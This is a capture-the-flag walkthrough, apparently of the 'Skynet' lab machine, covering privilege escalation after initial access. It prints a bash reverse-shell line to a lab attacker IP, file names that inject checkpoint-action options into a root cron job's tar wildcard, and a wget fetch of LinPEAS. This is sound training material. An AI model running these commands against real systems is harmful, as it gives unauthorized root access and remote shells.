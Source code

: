 Now that we have initial access to the system, we can begin looking for flags. With our current privileges, easily find the `user.txt` flag in Miles' home directory.

<center>

![4856ecb521d0dcd629bcad974e2dbb62.png](/Skynet/_resources/4856ecb521d0dcd629bcad974e2dbb62.png)

</center>

It remains to find the root flag. Let's go ahead and upgrade our shell with `python -c 'import pty; pty.spawn("/bin/bash")` for convenience. We will use LinPEAS to search for possible privesc avenues. We'll host a web server on our local machine in order to download `linpeas.sh` with `wget`; here, we'll want to save the file to the `/tmp` directory since we have write permissions there. Now use `chmod +x linpeas.sh` to make the file executable, and run it with `./linpeas.sh`. 

There are a few ways we can proceed from here, but we'll focus on looking at cronjobs. One interesting scheduled process sticks out.

<center>

![205bd8e761c33f959206f27942aaefae.png](/Skynet/_resources/205bd8e761c33f959206f27942aaefae.png)

![39aa328167e5abfbc3ec9158cbde5ac8.png](/Skynet/_resources/39aa328167e5abfbc3ec9158cbde5ac8.png)

</center>

We could try editing the `backup.sh`, but unfortunately we don't have write permissions. Let's look at the contents.

<center>

![93e4f30926ea59f72b46ccb80bad439a.png](/Skynet/_resources/93e4f30926ea59f72b46ccb80bad439a.png)

</center>

So, whenever this script runs, it moves into the `/var/www/html` directory and uses `tar` to compress the contents of the directory into a file in Miles' backups directory. Note that the script executes every minute, and it runs with root privileges.

If we look up the tar binary on [GTFOBins](https://gtfobins.github.io/gtfobins/tar/), we see that we can use it to spawn a new shell with root privileges. We need to use the following sequence of commands to add the relevant options before we can spawn the shell.

```bash
printf '#!/bin/bash\nbash -i >& /dev/tcp/10.8.50.72/6666 0>&1' > /var/www/html/shell
chmod +x /var/www/html/shell
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=bash\ shell
```

Navigating to `/var/www/html`, we verify that all requires files are in the right place.

<center>

![e6f6c3f0e63acc1605ec8f7525027d77.png](/Skynet/_resources/e6f6c3f0e63acc1605ec8f7525027d77.png)

</center>

Now set up a netcat listener on a different port and run the following command to catch the reverse shell.

```bash
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

A quick search reveals the location of the `root.txt` flag.

<center>

![cf10e8a25a88a3c4e39d55b903d95fe2.png](/Skynet/_resources/cf10e8a25a88a3c4e39d55b903d95fe2.png)

![e57d9a5902ba8f9eff3a0df207d4fb7b.png](/Skynet/_resources/e57d9a5902ba8f9eff3a0df207d4fb7b.png)

</center>